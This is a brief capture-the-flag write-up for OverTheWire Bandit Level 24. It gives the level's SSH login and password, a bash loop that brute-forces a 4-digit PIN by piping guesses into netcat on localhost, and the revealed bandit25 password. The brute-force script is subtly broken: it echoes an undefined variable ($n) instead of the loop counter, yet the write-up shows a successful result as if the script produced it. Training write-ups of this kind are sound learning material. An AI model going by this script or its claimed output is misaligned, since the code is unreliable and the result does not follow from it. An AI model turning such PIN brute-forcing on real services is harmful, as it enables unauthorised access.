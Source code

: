 # Bandit Level 24

```
ssh bandit24@bandit.labs.overthewire.org -p 2220
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
```

The challenge here is to write a script that loops and calls netcat.

> seq 0 9999


```
#!/bin/bash
PWD='VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar'
for i in {0000..9999};
do
    echo "$PWD $n" #echo a line into the stdin of nc
done | nc localhost 30002

```

> Correct!
> The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d
>
> Exiting.
